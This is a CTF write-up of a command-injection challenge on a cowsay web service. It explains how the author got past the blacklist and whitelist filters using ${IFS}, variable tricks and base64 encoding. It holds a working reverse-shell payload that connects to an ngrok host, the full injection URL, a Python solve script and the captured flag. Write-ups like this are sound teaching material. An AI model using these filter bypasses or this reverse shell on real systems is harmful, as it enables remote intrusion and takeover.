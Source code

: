 # caas renewed

```
moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo etc/cowsay/falg.txt

Author: ravinesPlains

Link: http://caas.web.nitectf.live

File: caasRenewed.zip
```

## POC

Upon inspecting the index page, I discovered a link format for generating cowsay messages: [http://caas.web.nitectf.live/cowsay/{message}](http://caas.web.nitectf.live/cowsay/Val0id)

![1](images/1.png)

I successfully injected the command `pwd` and received the expected output.

![2](images/2.png)

But I encountered restrictions through both a whitelist and a blacklist of commands.

[blacklist.txt](./blacklist.txt)<br>
[whitelisted.txt](./whitelisted.txt)

To overcome this limitation, I crafted a payload to achieve a reverse shell. I used `nc` and `ngrok` for listening on my specified port.

![3](images/3.png)

The payload was a bash command.

```bash
bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/11544 0>&1
```

I encoded the payload in base64, with special attention to avoiding blacklisted and whitelisted commands.

```bash
echo 'bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/11544 0>&1' | base64
```

```bash
b="b"
```

```bash
${IFS}
```

This was the final payload.

```bash
Val0id;b="b";echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg==|${b}ase64${IFS}-d|${b}ash
```

I sent the payload to the url.

[`http://caas.web.nitectf.live/cowsay/Val0id;b="b";echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg==|${b}ase64${IFS}-d|${b}ash`](http://caas.web.nitectf.live/cowsay/Val0id;b="b";echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg==|${b}ase64${IFS}-d|${b}ash)

And I got the reverse shell.

![4](images/4.png)

Since I already knew where was the flag located from the description, I just need to printed out with this command.

```bash
cat /etc/cowsay/falg.txt
```

![5](images/5.png)

The flag was successfully revelead.

## solve.py

```python
import requests

url = "http://caas.web.nitectf.live/cowsay"

say = 'Val0id;b="b";echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg%3D%3D|${b}ase64${IFS}-d|${b}ash'

requests.get(f"{url}/{say}")
```

## Flag

`nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}`

